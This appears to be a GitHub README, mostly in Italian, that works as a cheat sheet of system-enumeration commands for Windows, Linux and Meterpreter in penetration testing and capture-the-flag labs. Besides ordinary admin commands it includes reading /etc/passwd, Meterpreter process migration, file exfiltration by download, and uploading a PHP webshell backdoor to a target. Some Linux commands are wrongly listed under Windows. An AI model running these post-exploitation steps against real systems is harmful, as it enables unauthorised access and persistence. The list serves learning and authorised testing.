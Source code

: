 # Enumeration-of-system-info
Let's check the command to enumerate a system.
# What's system info enumeration?
System info enumeration is a process of gathering information about a system, such as its operating system, network infrastructure, usernames, machine names, and other details. It can be used for ethical hacking, penetration testing, or system administration. System info enumeration can be performed using various tools and techniques, such as command-line utilities, network scanners, or web crawlers.

# My list of command for enumerating system info

## Usefull command shell Windows
	• hostname (hostname del sistema)
	• systeminfo (informazioni di sistema, versione OS, Os build number, hardware configuration, windows hotfix installed)
	• wmic qfe get Caption,Description,HotFixID,InstalledOn (hotfix installati con vari dettagli)
	• whoami
	• whoami /priv (enumera l'utente e i suoi privilegi)
	• net users (lista gli user accounts)
	• net user administrator (mostra le informazioni di configurazione di tale account)
	• net localgroup (enumera i gruppi che ci sono nel sistema)
	• net localgroup administrators (mostro quali sono gli utenti che sono nel gruppo administrators)
	• ip a s (mostra le network interfaces connesse al computer)
	• cat /etc/networks (lista le network configurate)
	• cat /etc/hosts (enumera i domini mappati localmente e i rispettivi ip)
	• cat /etc/resolv.conf (mostra il DNS nameserver ip)
	• net start (enumera la lista dei servizi in running)
	• wmic service list brief (uguale al comando di sopra, ma da anche informazioni dettagliate)
	• tasklist /SVC (mostra la lista dei task in running e il corrispettivo servizio)
	• schtasks /query /fo LIST (enumera la lista dei task schedulati)
	• Get-ChildItem -Path C:\Users -Recurse -filter *flag*.txt (cerca il flag nel punto che dici tu)
	• cd /
	• dir
  • type flag.txt

## Usefull command bash Linux
	• hostname (hostname del sistema)
	• cat /etc/issue (trova il nome distro di linux)
	• cat /etc/*release (trova la versione di linux)
	• uname -a (trova la versione del kernel di linux)
	• lscpu (trova le informazioni hardware del sistema)
	• df -h (trova la list degli storage con le varie informazioni tra cui dove sono montate)
	• whoami (ti dice in quale user account sei)
	• groups root (enumera i gruppi di cui fa parte root)
	• cat /etc/passwd (lista gli user and service accounts)
	• groups (enumera i gruppi che ci sono)
	• who (mostra gli utenti connessi ora)
	• lastlog (lista tutti gli utenti con l'ultimo accesso fatto)
	• ip a s (mostra le varie interfaccie connesse)
	• cat /etc/networks (enumera la lista delle network configurate e i loro subnet)
	• cat /etc/hosts (enumera la lista dei domini mappati localmente e i rispettivi ip)
	• cat /etc/resolv.conf (trova l'ip del default DNS server name)
  • cat /etc/cron* (enumera la lista dei cron job)

## Usefull command meterpreter Windows and Linux
	• sysinfo (informazioni di sistema)
	• shell (apre una shell)
	• getuid (NT-WINDOWS)
	• getprivs (enumera i privilegi che ha l'utente)
	• background (mette in background la sessione meterpreter = ctrl+z)
	• ifconfig (le interfaccie)
	• netstat (ottieni la lista delle porte aperte)
	• route (ottieni la routing table)
	• ps (mostra i processi che runnano su windows)
	• pgrep explorer.exe (cerca il suo pid)
	• migrate 2176 (migra nel pid)
	• lpwd (mostra la cartella locale di kali)
	• download flag5.zip (scarica il zip)
	• checksum md5 /bin/bash (tira fuori il checksum di un file)
	• getenv PATH (ti dà il path di dove sono le variabili d'ambiente)
	• search -d /usr/bin -f *flag* -r (-d cerca dalla directory che indichi, -f indichi cosa cerchi e metti -r se vuoi cercare nelle sue sottocartelle)
	• upload /usr/share/webshells/php/php-backdoor.php (carica una webshell nel target)

For more information about the enumeration, I direct you to my nmap github repository.<br> 
**https://github.com/SavioFengGit/Nmap-Active-Information-Gathering** <br>


#Author
<b>Xiao Li Savio Feng</b>



